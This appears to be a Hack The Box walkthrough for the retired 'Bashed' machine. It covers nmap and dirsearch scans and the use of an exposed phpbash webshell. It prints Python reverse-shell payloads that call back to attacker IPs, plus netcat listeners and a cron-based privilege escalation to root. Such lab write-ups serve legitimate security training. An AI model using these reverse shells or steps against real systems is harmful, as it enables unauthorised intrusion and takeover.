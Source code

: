 
# Bashed 
https://app.hackthebox.com/machines/Bashed
![Bashed](https://user-images.githubusercontent.com/80511498/173012371-93079d00-9b84-4d07-b754-de99882d1f77.png)

ip is dynamic **Retired Machine IP:- 10.129.88.45, 10.129.88.251**

## nmap
```bash
# Nmap 7.92 scan initiated Tue Jun  7 08:29:13 2022 as: nmap -sV -sC -oA nmap_bashed -v 10.129.88.45
Nmap scan report for 10.129.88.45
Host is up (0.54s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  7 08:29:44 2022 -- 1 IP address (1 host up) scanned in 30.99 seconds

```

## dirsearch 
```bash

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/10.129.88.45/_22-06-07_08-35-28.txt

Error Log: /root/.dirsearch/logs/errors-22-06-07_08-35-28.log

Target: http://10.129.88.45/

[08:35:29] Starting: 
[08:35:33] 301 -  309B  - /js  ->  http://10.129.88.45/js/                 
[08:35:37] 301 -  310B  - /php  ->  http://10.129.88.45/php/               
[08:36:04] 200 -    8KB - /about.html                                       
[08:36:34] 200 -    0B  - /config.php                                       
[08:36:36] 200 -    8KB - /contact.html                                     
[08:36:38] 301 -  310B  - /css  ->  http://10.129.88.45/css/                
[08:36:40] 301 -  310B  - /dev  ->  http://10.129.88.45/dev/                
[08:36:40] 200 -    1KB - /dev/                                             
[08:36:47] 301 -  312B  - /fonts  ->  http://10.129.88.45/fonts/            
[08:36:51] 301 -  313B  - /images  ->  http://10.129.88.45/images/          
[08:36:51] 200 -    2KB - /images/                                          
[08:36:53] 200 -    8KB - /index.html                                       
[08:36:55] 200 -    3KB - /js/                                              
[08:37:10] 200 -  940B  - /php/                                             
[08:37:20] 403 -  300B  - /server-status                                    
[08:37:20] 403 -  301B  - /server-status/
[08:37:31] 301 -  314B  - /uploads  ->  http://10.129.88.45/uploads/        
[08:37:32] 200 -   14B  - /uploads/                                         
                                                                             
Task Completed 
```


## phpbash
![Pasted image 20220607084134](https://user-images.githubusercontent.com/80511498/173008186-a2f65c34-30a0-41e4-a701-72935c98bb8b.png)

## webshell

**on clicking phpbash.php it started a webshell**

![Pasted image 20220607084338](https://user-images.githubusercontent.com/80511498/173008310-b4a9bbc2-0e30-4c4a-8a45-45cbf6ed04a8.png)

## stable shell 
**now to get a stable shell i used pentestmonkey cheatsheet python reverseshell 
and using netcat i got the shell**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
```bash
nc -lvnp 1234
```
got the reverseshell
## user arrexel
**user arrexel had the user.txt**

![Pasted image 20220607085646](https://user-images.githubusercontent.com/80511498/173009601-596da2a1-9de5-4842-96f1-235125dedc2e.png)

switched user to scriptmanager using 
```bash
sudo -u scriptmanager bash -i
```
## uploading the reverse shell
saw that /scripts folder was executing text.py file 
uploaded 
python reverse shell :- 
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```python
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.32",8081))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);

```
**afterwords i uploaded it using python http server**

![Pasted image 20220607085646](https://user-images.githubusercontent.com/80511498/173010132-2ad12989-2859-4eb8-ab16-5fee60a58cca.png)


```python 
python -m http.server 80
```
**using wget downloaded the file on the target side**

![Pasted image 20220608083939](https://user-images.githubusercontent.com/80511498/173010203-6beea585-e374-4a48-8b5a-3fae6a8a66d9.png)


```python 
wget 10.10.16.32/write.py
```

**then it automatically executed just here** 
## root shell
```bash
nc -lvnp 8081
```
![Pasted image 20220608083217](https://user-images.githubusercontent.com/80511498/173010307-cc84ab51-1b82-4404-abf2-7c6ac3290cee.png)

